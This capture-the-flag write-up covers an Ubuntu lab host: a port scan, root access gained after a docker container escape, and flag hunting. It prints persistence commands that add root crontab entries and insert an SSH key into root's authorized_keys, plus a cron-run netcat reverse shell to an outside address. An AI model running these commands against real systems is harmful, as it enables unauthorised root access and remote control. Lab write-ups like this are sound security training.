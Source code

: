 # Ubuntu

## Port Scan

```
ec2-user@kali:~$ nmap 172.16.4.85 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-30 18:37 UTC
Nmap scan report for 172.16.4.85
Host is up (0.015s latency).
Not shown: 65525 closed ports
PORT      STATE SERVICE
25/tcp    open  smtp
79/tcp    open  finger
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8443/tcp  open  https-alt
8777/tcp  open  unknown
8880/tcp  open  cddbp-alt
9021/tcp  open  panagolin-ident
31063/tcp open  unknown
```

I also checked UDP for a small range, but connection was refused when trying to connect after the scan.

```
PORT    STATE         SERVICE
137/udp open          netbios-ns
138/udp open|filtered netbios-dgm
MAC Address: 0A:28:C5:43:46:2A (Unknown)
```

## Shell on Ubuntu host

One interesting discovery was being able to get a shell on the host system itself after escaping via the docker container on port 2222. Read the writeup for port 2222 (King of Diamonds) to see initial steps.

After mounting the host filesystem within the container, we would have read and write access to everything within the host. This mean that we could exploit this as we wish, and upgrade our container shell to a host shell!

There are various ways to do this but the way used in this case was to write some our own `cronjobs` and make them run as root. Because ssh shells are the nicest to use, we enable ssh on the host machine with the line:

`echo "* * * * * root systemctl start ssh.service" >> /host/etc/crontab`

where `/host` is the mount point used in the container escape. In my Kali instance I generated the key first with `ssh-keygen -t rsa -C "your_email@example.com"`. Then in `/host/root/.ssh/` we add our Kali ssh key to the `authorized_keys` file. An `echo` one liner can be used to do that `echo '<pub_key>' > authorized_keys`. Then we can simply ssh in with `ssh <user>@172.16.4.85` on port 22.

An alternative to the above if you wanted to get straight into a shell would be to just write a `nc` reverse shell and catch it with a listener e.g.

`echo "* * * * * root nc 1.2.3.4 555 -e /bin/sh" >> /host/etc/crontab`

We can now run docker commands, and can even execute commands to be run within the containers e.g. `docker exec -it <container id> bash>` to get a shell for that container.

`Linux ip-172-16-4-85 4.4.0-139-generic #165-Ubuntu SMP Wed Oct 24 10:58:50 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

![docker containers](../docker_containers.png)

## Finding flags on the host

Now we had a shortcut to find all flags on for this box! Although I had already found most at this point.

The files used in docker images lived in `/var/lib/locker/aufs/` and you could simply run a `find` to search for flags. The names of them varied, but you could do various filters like finding all files and checking if each file contains a PNG header. An simple example would be:

```
find ./ -exec grep PNG {} +
Binary file .//5ofspades.png matches
Binary file .//9ofhearts.png matches
Binary file .//8ofdiamonds.png matches
```